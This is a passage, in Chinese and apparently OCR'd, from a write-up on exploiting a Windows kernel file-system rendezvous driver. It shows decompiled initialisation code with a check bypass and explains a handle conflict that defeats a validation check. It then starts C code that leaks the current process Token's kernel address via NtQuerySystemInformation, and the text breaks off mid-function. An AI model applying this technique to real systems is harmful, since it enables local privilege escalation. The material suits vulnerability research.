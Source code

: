 在FSStreamReg::Initialize，执行相应的初始化：  
```
*((_DWORD *)this + 106) = *((_DWORD *)a3
+ 8) << 10;  // 绕过相应的检查
 *((_DWORD *)this + 108) = *((_DWORD *)a3
+ 7);
 *((_DWORD *)this + 34) = 1;
 *((_QWORD *)this + 18) = *((_QWORD *)a3 +
1);
 *((_QWORD *)this + 19) = *((_QWORD *)a3 +
2);
 *((_DWORD *)this + 40) = *((_DWORD *)a3 +
6);
 *((_DWORD *)this + 41) = *((_DWORD *)a3 +
7);
 *((_QWORD *)this + 22) = 0LL;
 *((_DWORD *)this + 10) = 1;
```  
  
但需要注意，对于同一个handle，无法同时执行FSInitializeContextRendezvous和FSRendezvousServer::InitializeStream，原因是在FSInitializeContextRendezvous中同样会对CurrentStackLocation->FileObject->FsContext2进行赋值（在函数FSRendezvousServer::InitializeContext中）：  
```
FSRegObjectList::InsertTail((FSRendezvousServer *)((char *)this + 112),
(struct FSRegObject *)v3);
CurrentStackLocation->FileObject->FsContext2 = (PVOID)v3;
```  
  
从而导致FSRendezvousServer::InitializeStream中的检查失败：  
```
CurrentStackLocation =
a2->Tail.Overlay.CurrentStackLocation;
 v5 = 0LL;
 v6 = 0;
 if ( CurrentStackLocation->Parameters.Read.ByteOffset.LowPart
!= 3081220
 ||
CurrentStackLocation->FileObject->FsContext2 )
 {
 v10 = 0xC0000010;
 }
```  
  
**泄露Token地址**  
  
在Windows中有一个未公开的接口NtQuerySystemInformation可以直接用来泄露Token的内核地址，这似乎是一项比较常用且久远的技术了，因此相关的泄露代码也非常的通用：  
```
uint64_t
GetTokenAddress()
{
 NTSTATUS status;
 HANDLE currentProcess =
GetCurrentProcess();
 HANDLE currentToken = NULL;
 uint64_t tokenAddress = 0;
 ULONG ulBytes = 0;
 PSYSTEM_HANDLE_INFORMATION handleTableInfo
= NULL;
 BOOL success =
OpenProcessToken(currentProcess, TOKEN_QUERY, &currentToken);
 if (!success)
 {
 wprintf(L"[!] Couldn't open a
handle to the current process token. (Error code: %d)\n", GetLastError());
 return 0;
 }
 // Allocate space in the heap for the
```